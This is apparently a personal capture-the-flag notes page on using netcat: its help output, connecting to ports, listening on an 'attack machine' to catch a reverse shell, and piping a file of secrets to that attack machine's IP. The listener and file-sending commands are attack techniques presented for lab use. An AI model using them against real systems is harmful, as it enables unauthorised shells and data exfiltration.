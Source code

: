 # netcat

There isn't much that netcat can't do. It allows different types of communication between devices, open shells on remove machines or something simple like get http from a server. I use it often to send and receive data between machines.

## Usage

```bash
$ nc -h
OpenBSD netcat (Debian patchlevel 1.206-1ubuntu1)
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
	  [-X proxy_protocol] [-x proxy_address[:port]] 	  [destination] [port]
	Command Summary:
		-4		Use IPv4
		-6		Use IPv6
		-b		Allow broadcast
		-C		Send CRLF as line-ending
		-D		Enable the debug socket option
		-d		Detach from stdin
		-F		Pass socket fd
		-h		This help text
		-I length	TCP receive buffer length
		-i interval	Delay interval for lines sent, ports scanned
		-k		Keep inbound sockets open for multiple connects
		-l		Listen mode, for inbound connects
		-M ttl		Outgoing TTL / Hop Limit
		-m minttl	Minimum incoming TTL / Hop Limit
		-N		Shutdown the network socket after EOF on stdin
		-n		Suppress name/port resolutions
		-O length	TCP send buffer length
		-P proxyuser	Username for proxy authentication
		-p port		Specify local port for remote connects
		-q secs		quit after EOF on stdin and delay of secs
		-r		Randomize remote ports
		-S		Enable the TCP MD5 signature option
		-s source	Local source address
		-T keyword	TOS value
		-t		Answer TELNET negotiation
		-U		Use UNIX domain socket
		-u		UDP mode
		-V rtable	Specify alternate routing table
		-v		Verbose
		-W recvlimit	Terminate after receiving a number of packets
		-w timeout	Timeout for connects and final net reads
		-X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
		-x addr[:port]	Specify proxy address and port
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Connecting

Now and then I'll use netcat to connect to a port on a machine. Usually this happens when I am trying to figure out what is running on the given port. As an example, I am going to connect to the machine at 10.10.1.1 on port 1337. The syntax is very simple:

```bash
$ nc 10.10.1.1 1337
```

From here you can start typing to see how the port handles the message. It varies based on what is listening on that port.

## Listening

This is by far the most common use I have for netcat. I will list on my attack machine so that I can get a reverse shell onto the machine I am attacking. Here is the syntax:

```bash
$ nc -lvnp 4444
````

Here is what the command is doing:

- The `-l` option tells netcat to listen.
- The `-v` option tells netcat to be in verbose mode.
- The `-n` option tells netcat to supress name/port resolutions.
- The `-p` option tells netcat what port to listen on. In this case 4444.

This will output something like the following:

`Listening on 0.0.0.0 4444`

When someone connects, the terminal reads something like the following:

`Connection received on 10.10.1.1 33032`

From here, I can generate a stable shell.

## Sending a File

Netcat has the ability to also send files between machines. I will show how to receive and send a file using netcat. The syntax is very easy. In this example I am sending the secrets.txt to my attack machine that has an ip address of 10.10.1.1.

### Receiver

I need to setup the receiver first. Here is the syntax:

```bash
$ nc -lp 4444 -q 5 > output.txt < /dev/null
```

Here is a explaination about the command:

- The `-l` option tells netcat to listen.
- The `-p` option tells netcat what port to listen on. In this case 4444.
- The `-q` option tells netcat to wait for 5 seconds after the EOF (end of file) is sent.
- The `> output.txt` will save the text from netcat into the output.txt file.
- The `< /dev/null` will send an EOF to the command since we don't want to provide any input from our side.

### Sender

The sending is even easier than the above command. Here is the syntax:

```bash
$ cat output.txt | nc 10.10.1.1 4444
```

Cat will grab the text in output.txt and send it to my attack machine on port 4444.

## POP3

Netcat is the tool I use when interacting with POP3. I have a write up that details interacting with [pop3](/services/pop3.md) in my services section. It covers the some of the more common scenarios that I have found during capture the flag events.

All the examples and interactions use netcat.
